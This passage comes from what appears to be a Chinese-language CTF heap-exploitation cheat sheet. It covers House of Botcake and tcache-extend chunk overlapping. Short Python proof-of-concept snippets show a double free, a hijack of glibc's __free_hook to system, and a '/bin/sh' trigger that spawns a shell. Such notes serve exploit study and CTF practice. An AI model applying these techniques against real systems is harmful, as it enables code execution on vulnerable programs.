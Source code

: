 ```python
edit_chunk(0, p64(libc.sym['system']))

# trigger
edit_chunk(1,'/bin/sh\x00')
delete_chunk(1)
```

### House of Botcake

> [!info]- 介绍
> 同一个 chunk 释放到 tcache 和 unsorted bin 中。释放在 unsorted bin 的 chunk 借助堆块合并改变大小。相对于上一个方法，这个方法的好处是一次 double free 可以多次使用，因为控制同一块内存的 chunk 大小不同。
> ![](/img/user/CakeVault/Pwn/cheatsheet/heap_imgs/botcake.png)
#### 条件
堆块大小small_bin，能分配且释放9个chunk，悬挂指针
#### poc
```python
for i in range(10):
    add_chunk(i, 0x200)

# fill tcache
for i in range(7):
    delete_chunk(i)

# merge 7 & 8 chunk
delete_chunk(8)
delete_chunk(7)

# free 8 into tcache
add_chunk(0, 0x200)
delete_chunk(8)

# take out chunk 7 which contains chunk 8
add_chunk(7, 0x410)
edit_chunk(7, 'a' * 0x210 + p64(libc.sym['__free_hook'])) # hijack 8's fd

# attack free hook via tcache fd
add_chunk(0, 0x200)
add_chunk(0, 0x200)
edit_chunk(0,p64(libc.sym['system']))

# trigger
edit_chunk(2,'/bin/sh\x00')
delete_chunk(2)
```

## chunk overlapping
### tcache extend
修改 chunk 的 size 然后释放并重新申请出来就可以造成堆块重叠。
#### 条件
溢出size(0x8字节)
#### poc
```python
add_chunk(0, 0x10)
add_chunk(1, 0x10)
add_chunk(2, 0x10)

# modify chunk 1 size via chunk 0 overflow
edit_chunk(0, 'a' * 0x10 + p64(0) + p64(0x100))

# now chunk 1 contains chunk 2
```
